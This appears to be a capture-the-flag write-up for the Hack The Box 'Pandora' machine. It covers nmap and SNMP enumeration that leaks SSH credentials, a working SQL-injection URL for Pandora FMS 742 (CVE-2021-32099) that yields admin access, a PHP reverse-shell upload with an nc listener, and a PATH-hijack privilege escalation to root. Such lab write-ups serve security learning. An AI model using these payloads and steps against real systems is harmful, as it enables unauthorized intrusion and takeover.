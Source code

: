 #### Initial TCP Scan
```
nmap -sC -sV 10.10.11.136 -oN pandora.nmap

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
9001/tcp open  http    PHP cli server 5.5 or later
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



#### Findings UDP Scan
```
sudo nmap  -sU 10.10.11.136 -oN udp.nmap -vv
PORT    STATE SERVICE REASON
161/udp open  snmp    udp-response ttl 63

sudo nmap -p 161 -sU -sC -sV 10.10.11.136
826:
|     Name: sh
|     Path: /bin/sh
|     Params: -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'	

ssh daniel@10.10.11.136 
password: HotelBabylon23
```
Found 3 Users
```
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
matt:x:1000:1000:matt:/home/matt:/bin/bash
daniel:x:1001:1001::/home/daniel:/bin/bash
```
#### Port Forwarding with SSH
```
ssh -L 8000:localhost:80 daniel@10.10.11.136

http://127.0.0.1:8000/pandora_console/
```
#### Pandora FMS 742:POC CVE-2021-32099 
```
https://github.com/ibnuuby/cve-2021-32099
https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained
```
#### Using the link below in Browser and refreshing Pandora_console page, we get access to Admin Panel.
```
http://localhost:8000/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario%7Cs:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271
```
#### Uploading revershell.php

Navigatig to ```Admin Tools > File Manager```  to upload the ```reverse-shell.php```

#### Getting a shell
```
Navigating to browser URL:
127.0.0.1:8000/pandora_console/images/revshell.php
and Listening on Port 4444:
nc -lvnp 444
We get a Shell as Matt User
```
#### SSH connection with Matt User
```
Exporting (Kali) id_rsa.pub to (Matt) .ssh/authorized_keys
```
#### Finding Sudo Permissions in Root
```
find / -perm -u=s -type f 2>/dev/null
```
Interesting: ```/usr/bin/pandora_backup```

#### Getting Root
```
echo "/bin/bash" > tar
chmod +x tar
export PATH=$(pwd):$PATH
```
Run: ```/usr/bin/pandora_backup```

We are Root!
